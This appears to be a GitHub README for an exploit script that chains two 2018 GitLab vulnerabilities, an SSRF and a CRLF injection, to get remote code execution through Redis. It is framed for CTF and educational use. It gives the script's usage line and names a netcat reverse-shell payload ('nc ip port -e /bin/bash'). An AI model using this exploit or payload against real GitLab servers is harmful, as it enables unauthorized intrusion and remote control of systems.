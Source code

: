 # gitlab_RCE - Remote Code Execution
RCE for old gitlab version &lt;= 11.4.7

This an exploit for old Gitlab versions. The vulnerability is from 2018 so this shouldnt work in the wild but it still seems to be popular in CTFs. 
Educational use only. Illegal things are illegal.

CVEs: CVE-2018-19571 (SSRF) + CVE-2018-19585 (CRLF)

credits: 

  https://www.youtube.com/watch?v=LrLJuyAdoAg - LiveOverflow  
  https://github.com/jas502n/gitlab-SSRF-redis-RCE - jas502n
  
usage:

  python gitlab_rce.py target-url(http://gitlab:port) local-ip
  
  You might or might not have to tweak this a bit. For example the redis port (6379) might be different for your target or you might want to change the payload "nc ip port -e /bin/bash" might only work in some CTFs - I would have used a more common reverse shell but the characters mess with encoding. 
